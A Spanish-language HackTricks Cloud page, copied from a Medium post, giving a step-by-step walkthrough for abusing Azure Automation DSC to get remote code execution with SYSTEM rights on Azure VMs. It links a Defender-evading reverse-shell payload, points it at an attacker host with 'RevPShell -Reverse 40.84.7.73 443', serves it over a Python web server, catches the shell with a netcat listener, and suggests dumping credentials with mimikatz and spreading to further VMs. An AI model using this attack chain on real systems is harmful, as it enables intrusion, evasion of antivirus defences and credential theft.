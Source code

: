 # Az - State Configuration RCE

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post fue copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparación de la Infraestructura del Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Estaré alojando una versión simplificada del payload Nishang Invoke-PowerShellTcp.ps1 desde el servidor remoto "40.84.7.74", que es la caja de Kali. El nombre del payload será "RevPS.ps1". Para evitar que el script de Nishang sea eliminado por Windows Defender por cualquier motivo (quizás prefieras dejar el archivo en el disco), aquí tienes una versión ligera que puedes usar y que evitará a Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Esto será alojado por un simple servidor Python Simple en la caja de Kali.

### Paso 1 — Crear Archivos <a href="#89de" id="89de"></a>

Necesitaremos crear otro archivo de configuración DSC. Una plantilla se puede descargar aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este archivo de configuración utilizará la misma función de escritura de archivos que usamos anteriormente. Esta vez, los contenidos incluyen código para descargar y ejecutar un payload desde nuestro servidor remoto. Además, estamos utilizando una función de tarea programada disponible del módulo _ComputerManagementDsc_. La función de tarea programada será el papel clave en la ejecución y nos proporcionará privilegios de SYSTEM más adelante.

También descargaremos un script que se utilizará para publicar nuestra configuración en la VM. Se encuentra aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Estos archivos servirán como plantilla. **Necesitarás completar los nombres de las variables y los parámetros con lo que estés utilizando**. Esto incluye los nombres de los recursos, las rutas de los archivos y los nombres del servidor/payload externo que estés utilizando. Por favor, consulta los comentarios en el código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Paso 2 — Comprimir el Archivo de Configuración <a href="#c2c2" id="c2c2"></a>

Con nuestros dos archivos creados, comprimiremos el archivo **‘reverse\_shell\_config.ps1’** para que pueda ser enviado a la Cuenta de Almacenamiento
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Paso 3 — Establecer Contexto de Almacenamiento y Subir <a href="#bed9" id="bed9"></a>

Nuevamente, configuraremos el contexto de nuestra Storage Account, lo cual ya he hecho. Ya tengo un contenedor llamado '**azure-pentest**', así que aquí es donde publicaré el mío:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Paso 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

En nuestra Kali box, podemos simplemente usar _wget_ para obtener nuestro payload de PowerShell. El script crudo de reverse-shell se encuentra aquí: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Necesitamos editar el script de reverse-shell añadiendo nuestros parámetros, para que la VM de Windows sepa a dónde conectarse una vez que se ejecute. En mi caso, añado lo siguiente:
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Paso 5 — Publicar Archivo de Configuración <a href="#9ad6" id="9ad6"></a>

Ahora ejecutaremos nuestro archivo de configuración. Lo tengo configurado para ser publicado en el Escritorio para una mejor visualización, sin embargo, se puede publicar prácticamente en cualquier lugar. Después de un par de minutos, veremos que el script de reverse-shell ¡ha sido publicado!

### Paso 6 — Alojar Payload y Configurar Listener <a href="#c55f" id="c55f"></a>

Una vez que publiquemos la configuración, podemos iniciar simultáneamente un Python SimpleHTTPServer sobre el puerto 80 para alojar el payload, junto con un listener de netcat para capturar la conexión:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Observamos que la tarea programada se ha ejecutado y nuestro payload fue recuperado y ejecutado en memoria con privilegios de **SYSTEM**.

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusión <a href="#1ec2" id="1ec2"></a>

Esto abre la puerta a muchas posibilidades. Dado que tenemos una shell ejecutándose como **SYSTEM**, podemos volcar credenciales con mimikatz (potencialmente arriesgado dependiendo de la madurez del EDR para recursos en la nube). Si volcas credenciales, hay una buena posibilidad de que estas puedan ser reutilizadas en diferentes recursos. Por último, una gran lección es que, en lugar de limitar esto a una VM, ahora tienes la capacidad de aplicar potencialmente esta configuración a múltiples VMs.

¡Con esto concluimos nuestras aventuras con Azure Automation DSC! Espero que te hayas divertido, aprendido mucho y continúes expandiendo con tu propia creatividad.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
